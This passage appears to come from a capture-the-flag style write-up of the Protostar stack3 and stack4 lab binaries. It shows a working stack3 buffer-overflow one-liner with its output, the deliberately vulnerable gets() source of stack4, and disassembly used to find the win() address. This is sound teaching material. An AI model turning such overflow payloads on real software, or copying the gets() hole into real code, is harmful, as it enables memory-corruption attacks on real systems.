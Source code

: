 ```bsh
user@protostar:/opt/protostar/bin$ python -c 'print "A" * 64 + "\x24\x84\x04\x08" ' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

## Stack 4

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
This time we don't have a function pointer to overwrite with the win address. Instead we have to overwrite the EIP. Look at my binary notes for a further explanation.

```bsh
user@protostar:/opt/protostar/bin$ objdump -M intel -d ./stack4
```
Let's look at the hex dump to get the address of win again.
```bsh
080483f4 <win>:
 80483f4:       55                      push   ebp
 80483f5:       89 e5                   mov    ebp,esp
 80483f7:       83 ec 18                sub    esp,0x18
 80483fa:       c7 04 24 e0 84 04 08    mov    DWORD PTR [esp],0x80484e0
 8048401:       e8 26 ff ff ff          call   804832c <puts@plt>
 8048406:       c9                      leave
 8048407:       c3                      ret

08048408 <main>:
 8048408:       55                      push   ebp
 8048409:       89 e5                   mov    ebp,esp
 804840b:       83 e4 f0                and    esp,0xfffffff0
 804840e:       83 ec 50                sub    esp,0x50
 8048411:       8d 44 24 10             lea    eax,[esp+0x10]
 8048415:       89 04 24                mov    DWORD PTR [esp],eax
 8048418:       e8 ef fe ff ff          call   804830c <gets@plt>
 804841d:       c9                      leave
 804841e:       c3                      ret
 804841f:       90                      nop
```
Win at `080483f4`.
